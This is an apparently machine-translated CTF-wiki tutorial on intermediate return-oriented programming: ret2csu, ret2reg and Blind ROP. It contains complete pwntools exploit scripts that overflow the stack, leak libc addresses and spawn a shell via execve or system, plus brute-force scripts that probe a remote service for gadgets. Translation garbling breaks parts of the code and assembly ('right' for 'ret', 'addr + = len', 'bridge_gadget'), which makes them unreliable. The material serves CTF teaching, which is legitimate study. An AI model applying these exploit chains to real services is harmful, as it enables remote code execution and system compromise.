


[EN](./medium-rop.md) | [ZH](./medium-rop-zh.md)
#中级ROP


The intermediate ROP mainly uses some clever Gadgets.


## ret2csu


### Principle


In 64-bit programs, the first six arguments to a function are passed through registers, but most of the time, it&#39;s hard to find the gadgets for each register. At this time, we can take advantage of the gadgets in __libc_csu_init under x64. This function is used to initialize libc, and the general program will call the libc function, so this function will exist. Let&#39;s take a look at this function first (of course, there are some differences between different versions of this function)


`` `asm
.text:00000000004005C0 ; void _libc_csu_init(void)

.text:00000000004005C0                 public __libc_csu_init

.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o

.text:00000000004005C0                 push    r15

.text:00000000004005C2                 push    r14

.text: 00000000004005C4 mov r15d, edi
.text:00000000004005C7                 push    r13

.text:00000000004005C9                 push    r12

.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry

.text:00000000004005D2                 push    rbp

.text: 00000000004005D3 lea rbp, __do_global_dtors_to_final_array_entry
.text:00000000004005DA                 push    rbx

.text:00000000004005DB                 mov     r14, rsi

.text:00000000004005DE                 mov     r13, rdx

.text:00000000004005E1                 sub     rbp, r12

.text:00000000004005E4                 sub     rsp, 8

.text: 00000000004005E8 sar rbp, 3
.text:00000000004005EC                 call    _init_proc

.text:00000000004005F1                 test    rbp, rbp

.text:00000000004005F4                 jz      short loc_400616

.text:00000000004005F6                 xor     ebx, ebx

.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]

.text:0000000000400600

.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j

.text:0000000000400600                 mov     rdx, r13

.text:0000000000400603                 mov     rsi, r14

.text: 0000000000400606 mov, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]

.text:000000000040060D                 add     rbx, 1

.text:0000000000400611                 cmp     rbx, rbp

.text:0000000000400614                 jnz     short loc_400600

.text:0000000000400616

.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j

.text:0000000000400616                 add     rsp, 8

.text:000000000040061A                 pop     rbx

.text:000000000040061B                 pop     rbp

.text:000000000040061C                 pop     r12

.text:000000000040061E                 pop     r13

.text:0000000000400620                 pop     r14

.text:0000000000400622                 pop     r15

.text: 0000000000400624 retn
.text:0000000000400624 __libc_csu_init endp

```


Here we can use the following points


- From 0x000000000040061A to the end, we can use the stack overflow to construct data on the stack to control the data in the rbx, rbp, r12, r13, r14, r15 registers.
- From 0x0000000000400600 to 0x0000000000400609, we can assign r13 to rdx, r14 to rsi, and r15d to edi (note that although this is assigned edi, ** but the high 32 bits of rdi at this time The register value is 0 (self-tuning)**, so we can control the value of the rdi register, but only the lower 32 bits, and these three registers are the first three registers passed in the x64 function call. Also, if we can reasonably control r12 and rbx, then we can call the function we want to call. For example, we can control rbx to be 0, and r12 is the address of the function we want to call.
- From 0x000000000040060D to 0x0000000000400614, we can control the relationship between rbx and rbp as rbx+1 = rbp, so we will not execute loc_400600, and we can continue to execute the following assembler. Here we can simply set rbx=0, rbp=1.


###example


Here we take the steamed rice step by step to learn the level5 of the linux linux_x64 article as an example. First check the security of the program


```shell

➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5

    Arch:     amd64-64-little

    RELRO:    Partial RELRO

    Stack:    No canary found

    NX:       NX enabled

    PIE:      No PIE (0x400000)

```


The program is 64-bit and the stack unenforceable protection is turned on.


Second, looking for bugs in the program, you can see that there is a simple stack overflow in the program.


```c

ssize_t vulnerable_function()

{

  char buf; // [sp+0h] [bp-80h]@1


  return read(0, &buf, 0x200uLL);

}

```


A simple browsing of the program, found that the program has neither the system function address nor the /bin/sh string, so both of us need to construct ourselves.


**Note: Here I tried to use the system function to get the shell failed. It should be a problem with environment variables, so here is the execve to get the shell. **


Basic use ideas are as follows


- Execute libc_csu_gadgets with stack overflow to get the address of the write function and cause the program to re-execute the main function
- Get the corresponding libc version and execve function address according to libcsearcher
- Re-execute libc_csu_gadgets with stack overflow to write the execve address and the &#39;/bin/sh&#39; address to the bss section and cause the program to re-execute the main function.
- Execute libc_csu_gadgets again with stack overflow to execute execve(&#39;/bin/sh&#39;) to get the shell.


Exp is as follows


```python

from pwn import *

from LibcSearcher import LibcSearcher


#context.log_level = 'debug'


level5 = ELF (&#39;./ level5&#39;)
sh = process('./level5')


write_got = level5.got['write']

read_got = level5.got['read']

main_addr = level5.symbols['main']

bss_base = level5.bss()

csu_front_addr = 0x0000000000400600

csu_end_addr = 0x000000000040061A

fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):

    # pop rbx,rbp,r12,r13,r14,r15

    # rbx should be 0,

    # rbp should be 1,enable not to jump

    # r12 should be the function we want to call

# rdi = ID = r15d
# rsi = r14
    # rdx=r13

    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(

        r13) + p64(r14) + p64(r15)

    payload += p64(csu_front_addr)

    payload += 'a' * 0x38

    payload += p64(last)

    sh.send(payload)

    sleep(1)


sh.recvuntil('Hello, World\n')

## RDI, RSI, RDX, RCX, R8, R9, more on the stack

## write(1,write_got,8)

csu(0, 1, write_got, 8, write_got, 1, main_addr)


write_addr = u64(sh.recv(8))

libc = LibcSearcher('write', write_addr)

libc_base = write_addr - libc.dump('write')

execve_addr = libc_base + libc.dump('execve')

log.success('execve_addr ' + hex(execve_addr))

##gdb.attach(sh)


## read(0,bss_base,16)

## read execve_addr and /bin/sh\x00

sh.recvuntil('Hello, World\n')

csu(0, 1, read_got, 16, bss_base, 0, main_addr)

sh.send(p64(execve_addr) + '/bin/sh\x00')


sh.recvuntil('Hello, World\n')

## execve(bss_base+8)

csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)

sh.interactive()

```


### Thinking


#### Improve


In the above, we directly used this generic gadgets with a byte length of 128. However, not all bugs allow us to enter such long bytes. So what do we do when we allow a small number of bytes to enter? Here are a few methods


##### Improve 1 - Control rbx and rbp in advance


It can be seen that in our previous utilization, we used the values of these two registers mainly to satisfy the condition of cmp and jump. If we can control these two values in advance, then we can reduce 16 bytes, that is, we need only 112 for the number of bytes we need.


##### Improvement 2-Multiple use


In fact, improvement 1 is also a multi-use. We can see that our gadgets are divided into two parts, so we can actually make two calls to achieve the purpose, in order to reduce the number of bytes required for a gadget. But the multiple uses here require more stringent conditions.


- Vulnerabilities can be triggered multiple times
- The program has not modified the r12-r15 register between triggers because it is called twice.


** Of course, sometimes we will encounter a large number of bytes that can be read in one time, but the vulnerability is not allowed to be reused. At this time, we need to arrange all the bytes at once and then use it slowly. **


#### gadget


In fact, in addition to the above gadgets, gcc will compile some other functions by default.


```text

_init

_start

call_gmon_start

deregister_tm_clones

register_tm_clones

__do_global_dtors_aux
frame_dummy

__libc_csu_init

__libc_csu_fini
_fini
```


We can also try to use some of the code to perform. In addition, since the PC itself simply passes the data at the execution address of the program to the CPU, the CPU simply decodes the transferred data, and as long as the decoding is successful, it is executed. So we can offset some of the addresses in the source program to get the instructions we want, as long as we can ensure that the program does not crash.


Need to say that in the above libc_csu_init we mainly use the following registers


- Control rbx, rbp, r12, r13, r14, r15 with the tail code.
- Control rdx, rsi, edi with the code in the middle section.


In fact, the tail of libc_csu_init can control other registers by offset. Among them, 0x000000000040061A is the normal starting address, ** can see that we can control the rbp register at 0x000000000040061f, and can control the rsi register at 0x0000000000400621. ** And if you want to understand this part in depth, you need to have a more thorough understanding of each field in the assembly instructions. as follows.


`` `asm
gef➤  x/5i 0x000000000040061A

   0x40061a <__libc_csu_init+90>:	pop    rbx

   0x40061b <__libc_csu_init+91>:	pop    rbp

   0x40061c <__libc_csu_init+92>:	pop    r12

   0x40061e <__libc_csu_init+94>:	pop    r13

   0x400620 <__libc_csu_init+96>:	pop    r14

gef➤  x/5i 0x000000000040061b

   0x40061b <__libc_csu_init+91>:	pop    rbp

   0x40061c <__libc_csu_init+92>:	pop    r12

   0x40061e <__libc_csu_init+94>:	pop    r13

   0x400620 <__libc_csu_init+96>:	pop    r14

   0x400622 <__libc_csu_init+98>:	pop    r15

gef➤  x/5i 0x000000000040061A+3

   0x40061d <__libc_csu_init+93>:	pop    rsp

   0x40061e <__libc_csu_init+94>:	pop    r13

   0x400620 <__libc_csu_init+96>:	pop    r14

   0x400622 <__libc_csu_init+98>:	pop    r15

0x400624 &lt;__ libc_csu_init + 100&gt;: right
gef➤  x/5i 0x000000000040061e

   0x40061e <__libc_csu_init+94>:	pop    r13

   0x400620 <__libc_csu_init+96>:	pop    r14

   0x400622 <__libc_csu_init+98>:	pop    r15

0x400624 &lt;__ libc_csu_init + 100&gt;: right
   0x400625:	nop

gef➤  x/5i 0x000000000040061f

   0x40061f <__libc_csu_init+95>:	pop    rbp

   0x400620 <__libc_csu_init+96>:	pop    r14

   0x400622 <__libc_csu_init+98>:	pop    r15

0x400624 &lt;__ libc_csu_init + 100&gt;: right
   0x400625:	nop

gef➤  x/5i 0x0000000000400620

   0x400620 <__libc_csu_init+96>:	pop    r14

   0x400622 <__libc_csu_init+98>:	pop    r15

0x400624 &lt;__ libc_csu_init + 100&gt;: right
   0x400625:	nop

   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]

gef➤  x/5i 0x0000000000400621

   0x400621 <__libc_csu_init+97>:	pop    rsi

   0x400622 <__libc_csu_init+98>:	pop    r15

0x400624 &lt;__ libc_csu_init + 100&gt;: right
   0x400625:	nop

gef➤  x/5i 0x000000000040061A+9

   0x400623 <__libc_csu_init+99>:	pop    rdi

0x400624 &lt;__ libc_csu_init + 100&gt;: right
   0x400625:	nop

   0x400626:	nop    WORD PTR cs:[rax+rax*1+0x0]

0x400630 &lt;__libc_csu_fini&gt;: repz ret
```


### Title


- 2016 XDCTF pwn100

- 2016 Huashan Cup SU_PWN


### Reference reading


- http://wooyun.jozxing.cc/static/drops/papers-7551.html

- http://wooyun.jozxing.cc/static/drops/binary-10638.html


## ret2reg


### Principle


1. Check which register value points to the overflow buffer space when the overflow function returns.
2. Then decompile the binary, look for the call reg or jmp reg command, and set the EIP to the instruction address.
3. Inject the shellcode into the space pointed to by reg (you need to make sure that the space is executable, but it is usually on the stack)


## BROP


### basic introduction


BROP (Blind ROP) was presented by Andrea Bittau of Standford in 2014. The relevant research results were published in Oakland 2014. The title of the paper is **Hacking Blind**. The following is the author&#39;s corresponding paper and slides, and the author&#39;s corresponding introduction.


- [paper] (http://www.scs.stanford.edu/brop/bittau-brop.pdf)
- [slide] (http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf)


BROP is an execution flow that hijacks a program without attacking the program under the source code or binary file of the corresponding application.


### Attack conditions


1. The source program must have a stack overflow vulnerability so that an attacker can control the program flow.
2. The server-side process restarts after a crash, and the restarted process has the same address as the previous address (that is, even if the program has ASLR protection, it only works when the program is initially started). Currently, server applications such as nginx, MySQL, Apache, and OpenSSH are compatible with this feature.


### Attack principle


Currently, most applications will open ASLR, NX, Canary protection. Here we explain how to bypass these protections in BROP and how to attack them.


#### The basic idea


In BROP, the basic following ideas are as follows


- Determine the stack overflow length
- Violent enumeration
-   Stack Reading

- Get data on the stack to leak canaries, as well as ebp and return address.
- Blind ROP
- Find enough gadgets to control the parameters of the output function and call them, such as the common write function and the puts function.
-   Build the exploit

- Use the output function to dump the program so that you can find more gadgets so you can write the final exploit.


#### Stack overflow length


You can enumerate directly from 1 violence until you find the program crashes.


#### Stack Reading


As shown below, this is the current classic stack layout


```

buffer|canary|saved fame pointer|saved returned address

```


To get the canary and the variables that follow, we need to solve the first problem, how to get the length of the overflow, which can be obtained by continuous trial.


Secondly, regarding the canary and the following variables, the method used is the same. Here we take canary as an example.


Canary itself can be obtained by blasting, but it is obviously inefficient if you just enumerate all the values stupidly.


It should be noted that the attack condition 2 indicates that the program itself does not change because of the crash, so the canary equivalent is the same each time. So we can blast by byte. As the paper shows, there are up to 256 possibilities per byte, so in the case of 32 bits, we need to blast up to 1024 times, and 64 bits can blast up to 2048 times.


#### Blind ROP


##### The basic idea


The simplest way to execute the write function is to construct a system call.


`` `asm
pop rdi; right # socket
pop rsi; ret # buffer
pop rdx; ret # length

pop rax; ret # write syscall number

syscall

```


But in general, such an approach is more difficult, because it is basically impossible to find a syscall address. . . We can get it by converting to find the way to write.


###### BROP gadgets


First, at the end of libc_csu_init, a long list of gadgets, we can get the first two parameters of the write function call by offset. As shown in the text


###### find a call write


We can get the address of the write through the plt table.


###### control rdx


It should be noted that rdx is just a variable we use to output the length of the program byte, as long as it is not 0. Generally speaking, the rdx in the program will not be zero. But in order to better control the program output, we still try to control this value. But in the program


`` `asm
pop rdx; ret

```


There are almost no such instructions. So how do we control the value of rdx? Here we need to explain that when strcmp is executed, rdx will be set to the length of the string to be compared, so we can find the strcmp function to control rdx.


Then the next question, we can be divided into two


Find gadgets
Find a PLT form
- write entry
- strcmp entry


##### Looking for gadgets


First, let&#39;s find a way to find gadgets. At this point, since we don&#39;t know what the program looks like, we can only guess the corresponding gadgets by simply setting the return address of the program to its own value. When we control the return address of the program, there are generally the following situations:


- The program crashes directly
- The program crashes after running for a while
- The program keeps running without crashing


In order to find reasonable gadgets, we can divide into the following two steps.

###### Looking for stop gadgets


The so-called &quot;stop gadget&quot; generally refers to such a piece of code: when the program executes this code, the program will enter an infinite loop, so that the attacker can remain connected.


&gt; In fact, the stop gadget does not have to be the same as above. Its basic purpose is to tell the attacker that the return address tested is a gadgets.


The reason for finding stop gadgets is that when we guess a gadgtes, if we just lay it on the stack, the program will jump to the next address on the stack after executing the gadget. If the address is an illegal address, the program will crash. In this case, the attacker seems to be a simple crash. Therefore, the attacker would think that he did not execute any `useful gadget` in the process and gave up. The example is as follows





However, if we have a `stop gadget`, then for every address we want to try, if it is a gadget, then the program won&#39;t crash. Next, just think of ways to identify these gadgets.


###### Identifying gadgets


So how do we identify these gadgets? We can identify by stack layout and the behavior of the program. For easier introduction, here are the three addresses on the stack.


-   **Probe**

- Probe, which is the code address we want to probe. In general, all 64-bit programs can be tried directly from 0x400000. If it is not successful, it is possible that the program has PIE protection enabled. If it is not good, it may be that the program is 32-bit. . I haven&#39;t really wanted to understand here, how can I quickly determine the number of remote bits.
-   **Stop**

- The address of the stop gadget that will not crash the program.
-   **Trap**

- an address that can cause the program to crash


We can identify the instruction being executed by placing **Stop** and **Trap** in different orders on the stack. Because executing Stop means the program won&#39;t crash, executing Trap means the program will crash immediately. Here are a few examples


-   probe,stop,traps(traps,traps,...)

- We can find a gadget that does not pop the stack, such as if the program crashes or not (** if the program crashes directly at the probe)
- right
        -   xor eax,eax; ret

-   probe,trap,stop,traps

- We can find a gadget that just pops up a stack variable through such a layout. Such as
- pop rax; right
- pop rdi; right
-   probe, trap, trap, trap, trap, trap, trap, stop, traps

- We can use this layout to find a gadget that pops up 6 stack variables, which is a gadget similar to a brop gadget. **There is a problem with the original text. For example, if you encounter an address that just pops a stack variable, it will not crash. **In general, you will encounter two interesting places.
- plt will not collapse,
- _start will not collapse, which is equivalent to re-execution of the program.


The reason for putting a trap behind each layout is to be able to recognize that when the instruction executed at the corresponding address of our probe skips the stop, the program crashes immediately.


However, even then, it is still difficult to identify which register the given gadget is operating on.


However, it is important to note that the 6 registers of gadgets are popped up to the BROP, which is not often seen in the program. So, if we find such gadgets, then there is a great possibility that this gadgets are brop gadgets. In addition, this gadgets can also generate gadgets such as pop rsp by misplacement, which can make the program crash as a sign to identify this gadgets.


In addition, according to our previous ret2libc_csu_init, we can know that the address minus 0x1a will get its previous gadgets. Can be used to call other functions.


Need to pay attention to is that the probe may be a stop gadget, we have to check it, how to check it? We just need to make all the content behind it a trap address. Because if it is a stop gadget, the program will execute normally, otherwise it will crash. It seems very interesting.


##### Looking for PLT


As shown in the following figure, the plt table of the program has a relatively regular structure, and each plt entry is 16 bytes. Moreover, at the 6-byte offset of each entry, it is the parsing path of the function corresponding to the entry, that is, when the program first executes the function, the path is executed to parse the function&#39;s got address.





In addition, for most plt calls, it is generally not easy to crash, even with strange parameters. So, if we find a series of code segments of length 16 that don&#39;t crash the program, then we have some reason to believe that we have encountered a plt table. In addition, we can also determine whether we are in the middle of the plt entry or at the beginning by offsetting 6 bytes before and after.


##### Control rdx


When we find the plt table, below, we should find a way to control the value of rdx, then how to confirm the location of strcmp? Need to say in advance that not all programs will call the strcmp function, so without calling the strcmp function, we have to use other methods to control the value of rdx. Here is the case where the strcmp function is used in the program.


Previously, we have found the gadgets for brop, so we can control the first two parameters of the function. At the same time, we define the following two addresses


- readable, readable address.
- bad, illegal address, not accessible, say 0x0.


Then if we control the parameters passed as a combination of these two addresses, the following four situations will occur.


- strcmp(bad,bad)

- strcmp(bad,readable)

- strcmp(readable,bad)

- strcmp(readable,readable)


Only the last format will the program execute normally.


**Note**: In the absence of PIE protection, the 64-bit program&#39;s ELF file has 7 non-zero bytes at 0x400000.


So how do we do it specifically? One straightforward method is to scan each plt entry from start to finish, but this is more troublesome. We can choose one of the following methods


- Slow path using plt entries
- and use the address of the slow path of the next entry to override the return address


In this way, we do not have to control the corresponding variables back and forth.


Of course, we may also happen to find the strncmp or strcasecmp functions, which have the same effect as strcmp.


##### Looking for output functions


Look for the output function to find both write and puts. Generally look for the puts function now. However, for the convenience of introduction, first introduce how to find write.


###### Looking for write@plt


When we can control the three parameters of the write function, we can traverse all the plt tables again, and find the corresponding function according to the output of the write function. It should be noted that one of the more troublesome things here is that we need to find the value of the file descriptor. In general, we have two ways to find this value.


- Use rop chain, and make the file descriptors corresponding to each rop different
- Open multiple connections at the same time, and we use a relatively high number to try.


have to be aware of is


- By default, a process can only open up to 1024 file descriptors.
- The posix standard file descriptor value per application is always the current minimum available value.


Of course, we can also choose to look for the puts function.


###### Looking for puts@plt


Looking for the puts function (here we are looking for plt), we naturally need to control the rdi parameters. Above, we have found the brop gadget. Then, we can get the corresponding gadgets according to the brop gadget offset 9 (followed by ret2libc_csu_init). At the same time, in the case that the program has not yet turned on PIE protection, 0x400000 is the head of the ELF file, and its content is \x7fELF. So we can judge based on this. In general, its payload is as follows


```

payload = 'A'*length +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

```


#### Attack Summary


At this point, the attacker can already control the output function, so the attacker can output more content of the .text section in order to find more suitable gadgets. At the same time, the attacker can also find some other functions, such as dup2 or execve functions. Generally, the attacker will do the next thing at this time.


- Redirect socket output to input and output
- Look for the address of &quot;/bin/sh&quot;. In general, it is best to find a writable memory and use the write function to write the string to the appropriate address.
- Execve the execve to get the shell, and the execve is not necessarily in the plt table. At this point, the attacker needs to find a way to execute the system call.


### Examples


Here we take [HCTF2016&#39;s issuer missing] (https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/brop/hctf2016-brop) as an example. The basic idea is as follows


#### Determine stack overflow length


```python

def getbufferflow_length():
    i = 1

    while 1:

        try:

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('WelCome my friend,Do you know password?\n')

            sh.send(i * 'a')

            output = sh.recv()

            sh.close()

            if not output.startswith('No password'):

                return i - 1

            else:

                i += 1

        except EOFError:

            sh.close()

            return i - 1

```


Based on the above, we can determine that the length of the stack overflow is 72. At the same time, according to the echo information, it can be found that the program does not open canary protection, otherwise, there will be corresponding error content. So we don&#39;t need to perform stack reading.


#### Looking for stop gadgets


The search process is as follows


```python

def get_stop_addr(length):

    addr = 0x400000

    while 1:

        try:

            sh = remote('127.0.0.1', 9999)

            sh.recvuntil('password?\n')

            payload = 'a' * length + p64(addr)

            sh.sendline(payload)

            sh.recv()

            sh.close()

            print 'one success addr: 0x%x' % (addr)

            return addr

        except Exception:

            addr += 1

            sh.close()

```


Here we directly try 64-bit programs without PIE, because it is generally like this, if it is turned on, then follow the open method, and found a lot, I chose a seemingly return Address to the source program


```text

one success stop gadget addr: 0x4006b6

```


#### Identifying brop gadgets


Below, we get the corresponding brop gadgets address according to the principle described above. Constructed as follows, get_brop_gadget is to get a possible brop gadget, the latter check_brop_gadget is for checking.


```python

def get_brop_gadget(length, stop_gadget, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(

            stop_gadget) + p64(0) * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

        print content

        # stop gadget returns memory

        if not content.startswith('WelCome'):

            return False

        return True

    except Exception:

        sh.close()

        return False


def check_brop_gadget(length, addr):

    try:

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'a' * length + p64(addr) + 'a' * 8 * 10

        sh.sendline(payload)

        content = sh.recv()

        sh.close()

        return False

    except Exception:

        sh.close()

        return True


##length = getbufferflow_length()

length = 72

##get_stop_addr(length)

stop_gadget = 0x4006b6

addr = 0x400740

while 1:

    print hex(addr)

    if get_brop_gadget(length, stop_gadget, addr):

        print 'possible brop gadget: 0x%x' % addr

        if check_brop_gadget(length, addr):

            print 'success brop gadget: 0x%x' % addr

            break

    addr += 1

```


In this way, we basically got the bopp gadgets address 0x4007ba


#### Determine the puts@plt address


According to the above, we can construct the following payload to get the acquisition.


```text

payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

```


The specific function is as follows


```python

def get_puts_addr(length, rdi_ret, stop_gadget):

    addr = 0x400000

    while 1:

        print hex(addr)

        sh = remote('127.0.0.1', 9999)

        sh.recvuntil('password?\n')

        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(

            addr) + p64(stop_gadget)

        sh.sendline(payload)

        try:

            content = sh.recv()

            if content.startswith('\x7fELF'):

                print 'find puts@plt addr: 0x%x' % addr

                return addr
            sh.close()

            addr += 1

        except Exception:

            sh.close()

            addr += 1

```


Finally, according to the structure of plt, choose 0x400560 as puts@plt


#### Leaking puts@got address


After we can call the puts function, we can leak the address of the puts function, and then get the libc version, so as to get the relevant system function address and /bin/sh address to get the shell. We leaked 0x1000 bytes from 0x400000, which is enough to contain the plt part of the program. code show as below


```python

def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):

    sh = remote('127.0.0.1', 9999)

    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(

        puts_plt) + p64(stop_gadget)

    sh.recvuntil('password?\n')

    sh.sendline(payload)

    try:

        data = sh.recv()

        sh.close()

        try:

            data = data[:data.index("\nWelCome")]

        except Exception:

date = data
        if data == "":

            data = '\x00'

        return data

    except Exception:

        sh.close()

        return None


##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
addr = 0x400000

result = ""

while addr < 0x401000:

    print hex(addr)

    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)

    if data is None:

        continue

    else:

        result += data

addr + = len (data)
with open('code', 'wb') as f:

    f.write(result)

```


Finally, we write the leaked content to a file. It should be noted that if the leak is &quot;&quot;, then we have encountered &#39;\x00&#39;, because puts is the output string, the string is terminated with &#39;\x00&#39;. Then use ida to open the binary mode, first change the base address of the program to 0x400000 in edit-&gt;segments-&gt;rebase program, and then find the offset 0x560, as follows


`` `asm
seg000: 0000000000400560 db 0FFh
seg000: 0000000000400561 pcs 25h; %
seg000: 0000000000400562 db 0B2h;
seg000: 0000000000400563 db 0Ah
seg000:0000000000400564                 db  20h

seg000: 0000000000400565 db 0
```


Then press c to convert the data here into assembly instructions as follows


`` `asm
seg000: 0000000000400560; -------------------------------------------------- -------------------------
seg000: 0000000000400560 jmp qword for cs: 601018h
seg000: 0000000000400566; -------------------------------------------------- -------------------------
seg000:0000000000400566                 push    0

seg000:000000000040056B                 jmp     loc_400550

seg000:000000000040056B ; ---------------------------------------------------------------------------

```


This shows that the address of puts@got is 0x601018.


#### Program Utilization


```python

##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)

puts_got = 0x601018


sh = remote('127.0.0.1', 9999)

sh.recvuntil('password?\n')

payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(

    stop_gadget)

sh.sendline(payload)

data = sh.recvuntil('\nWelCome', drop=True)

puts_addr = u64 (data.ljust (8, &#39;x00&#39;))
libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(

    system_addr) + p64(stop_gadget)

sh.sendline(payload)

sh.interactive()

```


### Reference reading


- http://ytliu.info/blog/2014/09/28/blind-return-oriented-programming-brop-attack-gong-ji-yuan-li/

- http://bobao.360.cn/learning/detail/3694.html

- http://o0xmuhe.me/2017/01/22/Have-fun-with-Blind-ROP/
